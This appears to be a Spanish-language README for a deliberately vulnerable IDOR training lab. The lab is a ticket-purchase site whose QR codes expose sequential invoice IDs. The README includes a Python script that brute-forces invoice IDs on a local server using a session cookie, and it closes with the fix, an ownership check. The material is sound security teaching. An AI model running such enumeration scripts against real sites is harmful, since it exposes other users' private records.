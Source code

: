 ## 🚨 Insecure Direct Object Reference (IDOR-Lab)
- Aplicación vulnerable a **referencia de objeto directo inseguro** (en español). Se trata de una vulnerabilidad en la que un atacante puede aprovecharse de una referencia a un identificador para ver información privilegiada de otros usuarios que no debería poder ver.
- Esto es muy común en páginas donde el identificador de alguna entidad hace referencia al ID de ese objeto en la base de datos correspondiente. De esta forma, si ese acceso a la base de datos no es correctamente protegido, puede llegar a darse este fallo de seguridad. 
- Este laboratorio simula una página en la que el usuario puede comprar entradas a diferentes eventos de ocio. Sin embargo, tras realizar una compra se genera un código QR, el cual esconde información incorrectamente protegida.

Ejemplo de código QR generado:

![QR generado](images/qr.png)

Con herramientas como **zbarimg**, podemos ver el contenido que hay en el QR:

![Contenido del QR](images/qr_content.png)

Si visitamos esa URL, vemos los detalles de la compra:

![Detalles de la compra](images/compra.png)

Pero si a un usuario malintencionado le da por hacer un ataque de fuerza bruta, es decir, sustituyendo el ID de su factura por otros IDs, puede llegar a descubrir facturas de otros usuarios. Con este script en python podemos desplegar este ataque:

```python
import requests, signal, sys
from termcolor import colored

#CTRL+C
def def_handler(sig, frame):
    print(colored("\n\n[!] Saliendo ...\n", 'red'))
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Variables globales
url = "http://127.0.0.1:5012/"
session = "" # Sustituir con la cookie asignada tras el login de usuario
cookies = {
    'session' : session
}

def extraer_facturas():
    print()
    for i in range(1, 200):
        r = requests.get(url + "ver_factura/" + str(i), cookies=cookies)
        if not "Factura no encontrada" in r.text:
            print(colored(f"[+] Factura encontrada: {i}\n",'green'))

    
if __name__ == '__main__':
    extraer_facturas()
```

El resultado es este:

![Fuerza bruta](images/fuerza_bruta.png)

Si visitamos manualmente uno de ellos, podemos comprobar que se trata de una compra de otro usuario:

![Compra de otro usuario](images/compra_otro_usuario.png)

Es importante destacar que esto ha sido posible ya que no existe ningún control de acceso en la base de datos. Una correcta implementación de esto sería comprobar si la factura en cuestión pertenece o no al usuario que hace la petición.



